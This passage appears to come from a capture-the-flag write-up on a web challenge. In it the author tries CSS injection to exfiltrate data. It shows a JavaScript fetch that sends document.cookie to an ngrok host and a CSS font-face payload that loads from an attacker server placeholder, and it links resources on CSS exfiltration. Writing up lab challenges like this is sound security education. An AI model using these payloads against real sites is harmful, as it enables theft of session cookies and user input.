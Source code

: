 I tried a variety of payloads/formats here but each had the same issue, e.g.

{% code overflow="wrap" %}
```javascript
fetch("https://4ad824cfde68.ngrok-free.app?flag=" + document.cookie, {
    method: "GET",
    headers: {
        "Content-Type": "application/json",
    },
});
```
{% endcode %}

I tested this a little in my own browser and spotted the following error.

![](images/4.PNG)

Still playing around in the browser devtools style editor, I try a different CSS payload.

{% code overflow="wrap" %}
```css
@font-face {
    font-family: "meow";
    src: url("https://ATTACKER_SERVER/payload.js");
}

body {
    font-family: "meow";
}
```
{% endcode %}

![](images/5.PNG)

I investigated/tested some more techniques from these excellent resources:

-   [Exfiltration via CSS Injection (tripoloski)](https://tripoloski1337.github.io/webex/2024/07/24/exfil-using-only-css.html)
-   [x3CTF - blogdog + new CSS Injection XS-Leak! (j0r1an)](https://jorianwoltjer.com/blog/p/research/x3ctf-blogdog-new-css-injection-xs-leak)
-   [irisCTF2023 Writeup - Web sanitzer - CSS Injection (SloppyJoePirates)](https://www.youtube.com/watch?v=j1dY-poGPKs)
-   [CSS Injection: Attacking with Just CSS (aszx87410)](https://aszx87410.github.io/beyond-xss/en/ch3/css-injection/)

### Exfiltration via CSS Injection

When reading the blogs, I noticed a method to exfiltrate data from form fields using CSS. I reviewed the source code again and realised there was some JS updating a password attribute each time a key was pressed.
